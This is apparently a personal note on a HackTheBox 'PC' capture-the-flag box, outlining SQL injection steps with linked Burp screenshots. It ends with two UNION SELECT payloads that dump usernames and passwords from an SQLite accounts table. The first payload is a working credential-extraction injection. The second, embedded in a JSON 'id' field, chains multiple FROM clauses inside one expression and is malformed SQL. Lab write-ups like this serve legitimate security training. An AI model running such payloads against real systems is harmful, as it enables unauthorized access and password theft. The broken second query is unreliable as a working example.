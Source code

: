 
there was a bit of fiddling with the token

confirm sqli (or at least math :D)
![[InfoSec/Boxes/HackTheBox/PC (Done)/burp1.png]]

Get version
![[InfoSec/Boxes/HackTheBox/PC (Done)/burp2.png]]

Get tables
![[InfoSec/Boxes/HackTheBox/PC (Done)/burp3.png]]

Get columns
![[InfoSec/Boxes/HackTheBox/PC (Done)/burp4.png]]


Get usernames
![[InfoSec/Boxes/HackTheBox/PC (Done)/burp5.png]]

Get passwords
![[InfoSec/Boxes/HackTheBox/PC (Done)/burp6.png]]

Prettier output
![[InfoSec/Boxes/HackTheBox/PC (Done)/burp7.png]]
```sql
2 UNION SELECT 'usernames: ' || group_concat(username,', ') || ' - ' || 'passwords: ' || group_concat(password,', ') FROM accounts -- -
```

```
{
    "id": "2 UNION SELECT sqlite_version() || ', [' || group_concat(tbl_name,', ') FROM sqlite_master WHERE type='table' || '], [usernames: ' || group_concat(username,', ') FROM accounts || ' - passwords: ' || group_concat(password,', ') FROM accounts || ']'"
}
```